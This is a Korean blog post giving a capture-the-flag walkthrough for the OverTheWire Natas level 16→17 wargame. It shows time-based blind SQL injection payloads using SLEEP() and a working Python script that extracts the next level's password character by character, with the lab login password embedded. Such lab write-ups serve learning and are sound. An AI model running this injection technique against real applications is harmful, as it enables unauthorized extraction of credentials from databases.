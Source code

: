 ```yaml
---
title: Natas Level 16 → Level 17 풀이
date: 2024-04-13 09:13:00 +09:00
categories: [wargame, natas]
tags: [natas, wargame]
image:
  path: assets/img/0413/natas17a.png
---
```

<br>
## 로그인
---
> Username: natas17
> <br> URL: <http://natas17.natas.labs.overthewire.org>


이번에는 username을 입력하는 칸이 있다.<br>
소스코드를 보면,<br>
<br>![Desktop View](assets/img/0413/natas17b.png){: width="700" height="400" }<br>


입력한 유저가 존재하든, 존재하지 않든, 쿼리문에 에러가 뜨든.. 입력받는 모든 쿼리에 대해 아무것도 출력하지 않는다.<br>
따라서 Blind SQL injection 문제이다.<br>


<br>
<br>
<br>
## 풀이
---
<br>사용자 입력을 쿼리에 바로 넣어서 실행시키고 있으므로,<br>
필터링 걱정 없이 쿼리만 잘 조작하면 된다.


우선 참인 쿼리문과 거짓인 쿼리문의 차이를 찾기 위해 sleep()을 이용했다.<br>


<b>natas18" and SLEEP(3) #</b> 을 입력했을 때, 3초가량의 딜레이가 있었던 반면<br> <b>happy" and SLEEP(3) #</b> 을 입력했을 때는 딜레이 없이 빈 화면이 출력되었다.<br>


이는 username 중에 natas18이 존재한다는 뜻이므로, 패스워드 한 글자씩 넣어서 참인지 확인하는 쿼리를 넣으면 된다.<br>


```sql
natas18" AND IF(ASCII(SUBSTRING((SELECT password FROM users WHERE username = 'natas18'), 1, 1)) = ASCII('a'), SLEEP(5), 0) #
```
 
위의 쿼리는 natas18의 패스워드의 첫 글자가 a 이면 sleep(5)가 작동한다.<br>
이를 바탕으로 자동화프로그램을 쓰면 된다.


<br>
<br>
<br>
## 자동화 프로그램
---
```python
import requests
from requests.auth import HTTPBasicAuth
import time
 
url = 'http://natas17.natas.labs.overthewire.org/'
auth = HTTPBasicAuth('natas17', 'XkEuChE0SbnKBvH1RU7ksIb9uuLmI7sd')
 
pw = ''
characters = 'abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789'
 
for position in range(33):
    for char in characters:
        sql_query = f'natas18" AND IF(ASCII(SUBSTRING((SELECT password FROM users WHERE username="natas18"), {position}, 1)) = ASCII("{char}"), SLEEP(5), 0) #'
        data = {'username': sql_query}
 
        start_time = time.time()
        response = requests.post(url, auth=auth, data=data)
        duration = time.time() - start_time
 
        if duration > 5:
            pw += char
            print(f'{position}번: {char}')
            break
 
print(f'natas18 password: {pw}')
```

<br>
> 주의 사항은, time() 함수에 5초 이상 넣어야 한다..<br>
처음에 3초로 했었는데 패스워드가 맞지 않아 검색해보니 5초 이상 설정해야 한다고 한다.<br> 5초 미만으로 할 시 일부 맞지 않는 패스워드 문자가 나온다.<br>
{: .prompt-tip }


<br> 결과:
<br>![Desktop View](assets/img/0413/natas17d.png){: w="200" h="500" }<br>
